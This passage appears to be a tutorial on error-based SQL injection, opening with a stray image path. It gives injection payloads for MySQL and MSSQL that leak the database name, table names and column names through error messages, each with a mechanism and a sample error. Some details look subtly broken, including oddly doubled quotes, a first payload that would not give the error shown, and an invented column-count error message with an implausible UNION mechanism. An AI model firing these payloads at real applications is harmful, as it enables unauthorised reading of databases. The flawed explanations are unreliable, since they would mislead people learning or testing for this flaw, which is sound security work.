 
### **1. Triggering Errors to Extract Metadata**  
The core principle of error-based SQLi is to inject malicious payloads that induce syntax errors, which the database then returns as error messages. These errors often include fragments of the injected SQL code or metadata, which attackers can parse to gain insights into the database structure.  

#### **Example Workflow for Database Name Extraction (MySQL)**  
```sql  
' AND (SELECT * FROM (SELECT(SLEEP(0)), (SELECT CONCAT(''DBName:'',database())))a) --  
```  
- **How it works**:  
  - The subquery `(SELECT(SLEEP(0)), (SELECT CONCAT('DBName:',database())))` creates a derived table.  
  - The `CONCAT('DBName:',database())` embeds the database name into the error message.  
  - The outer query’s syntax error (e.g., mismatched column names) forces the database to return an error containing the concatenated string.  
- **Sample Error Response**:  
  > *"You have an error in your SQL syntax... near 'DBName:mydatabase'"*  

---

### **2. Metadata Extraction via Error Messages**  
Attackers systematically extract metadata by crafting payloads that encode desired data into error responses. Below are examples of common targets and techniques:  

#### **A. Listing Tables**  
**MySQL Example**:  
```sql  
' AND (SELECT EXTRACTVALUE(1, CONCAT(''0x'', (SELECT HEX(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES LIMIT 1)))) --  
```  
- **Mechanism**:  
  - `HEX(TABLE_NAME)` converts the table name to hexadecimal.  
  - `CONCAT('0x', ...)` encodes it into an XML-formatted string.  
  - The `EXTRACTVALUE()` function triggers an XML syntax error, exposing the hex-encoded table name.  
- **Sample Error**:  
  > *"XPATH syntax error: '0x7573657273'"* (hex for "users").  

**MSSQL Example**:  
```sql  
' AND 1=(SELECT CAST((SELECT TOP 1 name FROM sys.tables) AS INT))--  
```  
- **Mechanism**:  
  - The `CAST` function attempts to convert a string (e.g., a table name) to an integer, causing a conversion error.  
- **Sample Error**:  
  > *"Conversion failed when converting the varchar value 'users' to data type int."*  

#### **B. Listing Columns**  
**MySQL Example**:  
```sql  
' AND (SELECT 1 UNION SELECT 2,3, (SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users' LIMIT 1))--  
```  
- **Mechanism**:  
  - The `UNION` clause forces a column-count mismatch error.  
  - The third column’s value (a column name from `INFORMATION_SCHEMA.COLUMNS`) is exposed in the error.  
- **Sample Error**:  
  > *"Column count doesn't match: expected 3, found 4 (column 'username' is invalid)"*  

---